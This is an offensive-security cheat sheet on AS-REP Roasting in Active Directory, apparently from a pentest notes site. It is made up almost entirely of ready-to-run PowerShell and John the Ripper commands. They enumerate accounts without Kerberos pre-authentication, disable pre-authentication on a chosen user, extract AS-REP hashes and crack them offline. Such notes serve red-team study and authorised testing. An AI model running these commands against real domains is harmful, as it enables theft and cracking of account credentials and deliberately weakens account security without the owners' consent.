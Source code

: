 # AS-REP Roasting

## Enumerate

Enumerating accounts with Kerberos pre-authentication disabled

{% tabs %}
{% tab title="PowerView" %}
```powershell
Get-DomainUser -PreauthNotRequired -Verbose
```
{% endtab %}

{% tab title="AD Module" %}
```powershell
Get-ADUser -Filter {DoesNotRequirePreAuth -eq $True} -Properties DoesNotRequirePreAuth
```
{% endtab %}
{% endtabs %}

## Disable pre-authentication

{% tabs %}
{% tab title="PowerView" %}
```powershell
Set-DomainObject -Identity <User> -XOR @{useraccountcontrol=4194304} -Verbose
```
{% endtab %}
{% endtabs %}

## Retrieve the hash



{% tabs %}
{% tab title="PowerView" %}
```powershell
Get-ASREPHash -UserName VPN1user -Verbose
Invoke-ASREPRoast -Verbose
```
{% endtab %}
{% endtabs %}

## Crack

```powershell
john.exe --wordlist=passwords.txt asrephashes.txt
```

